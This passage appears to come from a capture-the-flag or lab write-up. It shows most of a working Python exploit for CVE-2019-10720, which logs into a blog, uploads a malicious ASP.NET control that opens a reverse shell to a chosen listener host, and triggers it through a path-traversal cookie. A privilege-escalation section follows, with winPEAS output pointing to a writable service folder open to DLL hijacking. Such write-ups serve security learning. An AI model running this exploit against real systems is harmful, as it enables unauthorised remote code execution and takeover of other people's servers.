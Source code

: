 ```python
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
'''
    make_request(session, "POST", target + "/api/upload?action=filemgr", files={"file": ("PostView.ascx", shell, "application/octet-stream")})

def trigger_shell(session, target):
    import datetime
    now = datetime.datetime.now().strftime("%Y/%m/")
    requests.get(target + "/", cookies={"theme": "../../App_Data/files/{}".format(now)})

def main(target, user, passwd, listener):
    with requests.Session() as session:
        login(session, target, user, passwd)
        upload_shell(session, target, listener)
        trigger_shell(session, target)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Exploit CVE-2019-10720 Path traversal + RCE')
    parser.add_argument('-t', '--target', action="store", dest="target", required=True, help='Target host')
    parser.add_argument('-u', '--user', default="admin", action="store", dest="user", help='Account with file upload permissions on blog')
    parser.add_argument('-p', '--passwd', default="admin", action="store", dest="passwd", help='Password for account')
    parser.add_argument('-s', '--ssl', action="store_true", help="Force SSL")
    parser.add_argument('-l', '--listener', action="store", help="Host:Port combination reverse shell should back to - 192.168.10.10:1337")
    args = parser.parse_args()

    protocol = "https://" if args.ssl else "http://"
    main(protocol + args.target, args.user, args.passwd, args.listener)
```

#### Privilege Escalation

Running winPEAS enumeration script we found a service auto running with the file permissions Everyone WriteData/CreateFiles
```
=================================================================================================
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper

```
